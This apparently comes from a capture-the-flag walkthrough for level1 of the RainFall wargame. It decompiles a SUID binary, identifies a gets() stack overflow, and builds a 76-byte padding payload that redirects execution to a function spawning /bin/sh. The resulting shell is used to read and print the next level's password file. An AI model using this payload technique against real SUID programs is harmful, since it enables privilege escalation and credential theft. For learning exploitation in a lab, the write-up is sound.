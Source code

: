 # Walkthrough level1

First of all we look at the files:

```bash
level1@RainFall:~$ ls -la
(...)
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

We can see the [SUID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
bit is on and the owner is level1. So the file will be executed by level1.

Try to run the file:

```bash
level1@RainFall:~$ ./level1
asdf
level1@RainFall:~$
```

With the disassembly code we write the c code:

```c
#include <stdio.h>

void run(void) {
  fwrite("Good... Wait what?\n", 19, 1, stdout);
  system("/bin/sh");
}

int main(void) {
  char buffer[64];
  gets(buffer);
}
```

In the code we can see the function `gets` who read from the standard input to
the buffer wich result to a buffer overflow. With this buffer overflow we can
modify the stack and especially the saved EIP of main.

Here is a schema of the stack:

<p align="center"> <img alt="stack" src="assets/stack.png"> </p>

Padding = `64 (buffer size) + 8 (align byes size) + 4 (saved EBP size) = 76`

Address of function run = `0x08048444`

Well we can generate the payload with the informations:

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/test.txt
level1@RainFall:~$ cat /tmp/test.txt | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

After some research we find this [link](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process) who explain that we are not in interactive mode because of the pipe.

```bash
cat /tmp/test.txt - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^CSegmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
(...)
level2@RainFall:~$
```
